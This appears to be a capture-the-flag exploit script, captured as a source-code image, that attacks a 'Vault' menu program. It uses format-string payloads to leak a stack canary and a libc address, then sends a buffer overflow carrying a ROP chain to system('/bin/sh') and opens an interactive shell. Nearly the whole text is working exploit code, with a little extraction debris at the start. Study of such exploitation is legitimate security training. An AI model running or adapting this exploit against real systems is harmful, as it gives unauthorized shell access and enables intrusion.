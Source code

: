 ```python
Vault Menu:
1. Create an entry
2. Modify an entry
3. Delete an entry
4. Print an entry
5. Exit
Enter your choice (1-5):
'''

# create entry
io.sendline(b'1')
io.sendline(b'%11$p') #stack offset to canary
io.sendline(b'passwd')
io.sendline(b'url')

# print 0th entry to leak canary
io.sendline(b'4')
io.recvrepeat(1)
io.sendline(b'0') #entry index
io.recvuntil(b'Username: 0x')
canary = io.recv(16)
canary = int.from_bytes(bytes.fromhex(canary.decode()), 'big')
info(f'canary: {p64(canary)}')

#create entry
io.sendline(b'1')
io.sendline(b'%141$p') #stack offset to return value of main (main returns to libc)
io.sendline(b'passwd')
io.sendline(b'url')

# print 1st entry to leak libc address
io.sendline(b'4')
io.recvrepeat(1)
io.sendline(b'1')
io.recvuntil(b'Username: 0x')
libc_start_main = io.recv(12)
libc_start_main = int.from_bytes(bytes.fromhex(libc_start_main.decode()), 'big')
# from gdb: (return of main) - (libc base) = 0x276ca 
#libc.address = libc_start_main - 0x276ca
libc.address = libc_start_main - 0x29d90
info(f'libc: {p64(libc.address)}')

# modify 0th entry to overflow buffer
io.sendline(b'2')
io.sendline(b'0')

rop = ROP(libc)
rop.raw(rop.find_gadget(['ret'])) # padding for stack 16-byte alignment
rop.system(next(libc.search(b'/bin/sh\x00')))
info(rop.dump())

io.sendline(cyclic(cyclic_find('ajva')) + p64(canary) + b'B'*8 + rop.chain())
io.recvrepeat(1)

# exit menu to trigger return
io.sendline(b'5')
info(io.recvrepeat(1))
io.interactive()
```
